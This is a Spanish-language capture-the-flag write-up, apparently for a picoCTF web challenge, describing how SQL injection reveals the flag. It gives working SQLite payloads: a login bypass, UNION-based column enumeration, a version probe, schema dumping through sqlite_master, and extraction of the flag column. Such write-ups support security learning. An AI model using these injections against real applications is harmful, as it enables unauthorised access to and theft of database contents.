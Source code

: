 ## Descripción
Can you find the flag on this website. Try to find the flag [here](http://saturn.picoctf.net:51239/).
## Solución
primero usamos una inyeccion sql con:
```
admin' or 1=1;
```
probamos con el nombre de usuario y al ver que no funciono lo probamos con la contraseña y asi pudimos acceder.
aqui apreciamos un buscadaor de una tabla de 3 columnas
![[Pasted image 20250924104337.png]]
al saber que son 3 columnas usamos el comando union para juntar los datos de las columnas y la ponemos como inyeccion sql en el buscador de la pagina.
```
ciudad' union select 1,2,3;
```
![[Pasted image 20250924104612.png]]
y ahora usamos la primer columna para saber la version del sql
```
ciudad' union select sqlite_version(),2,3;
```
![[Pasted image 20250924104912.png]]
y usamos una inyección sql de extracción string para conocer el nombre de las tablas:
```
ciudad' union select 1,2,tbl_name FROM sqlite_master WHERE type='table' ;
```
![[Pasted image 20250924105701.png]]
para descripir los atributos se usa esta inyeccion sql de extraccion string ,el cambio fue que  en la segunda columna pusimos sql para que nos desplegara una mejor descripcion de las tablas
```
ciudad' union select 1,sql,tbl_name FROM sqlite_master WHERE type='table' ;
```
![[Pasted image 20250924110631.png]]
ahora como sabemos que en la tabla more_table esta un atributo llamado flag deducimos que alli esta nuestra bandera por ello usamos otra inyeccion donde en la tercer columna pondremos flag para sacar los registros desde la tabla more_tables.
```
ciudad' union select 1,2,flag from more_table;
```
![[Pasted image 20250924110558.png]]
## Referencias
SQLite Injection: [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md "https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md")
